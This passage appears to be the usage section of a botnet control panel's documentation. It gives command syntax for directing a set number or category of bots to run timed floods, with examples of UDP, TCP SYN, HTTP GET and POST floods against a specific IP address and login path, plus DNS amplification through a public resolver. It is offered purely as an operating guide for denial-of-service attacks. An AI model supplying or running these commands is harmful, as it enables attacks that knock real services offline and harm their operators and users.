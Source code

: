 ### Target Specific Number of Bots
```
*<number> <method> <target> <duration> [flags]
```
**Example:**
```
*100 tcpflood 50.7.22.221 20 dport=80
```

### Target Specific Bot Category
```
-<category> <method> <target> <duration> [flags]
```
**Example:**
```
-arm tcpflood 50.7.22.221 20 dport=80
```

## Common Usage Examples

### Basic UDP Attack
```
udpflood 50.7.22.221 20 dport=53
```

### TCP SYN Flood
```
tcpflood 50.7.22.221 20 dport=80 syn=1
```

### HTTP GET Flood
```
httpflood 50.7.22.221 20 domain=http://target.com conns=1000
```

### DNS Amplification
```
dnsflood 8.8.8.8 20 domain=google.com dport=53
```

### Large Packet UDP
```
udpflood 50.7.22.221 20 len=1024 dport=80
```

### TCP with Custom Flags
```
tcpflood 50.7.22.221 20 dport=80 syn=1 ack=1 psh=1
```

### HTTP POST Flood
```
httpflood 50.7.22.221 20 domain=https://target.com method=POST path=/login postdata=user=admin&pass=123
```
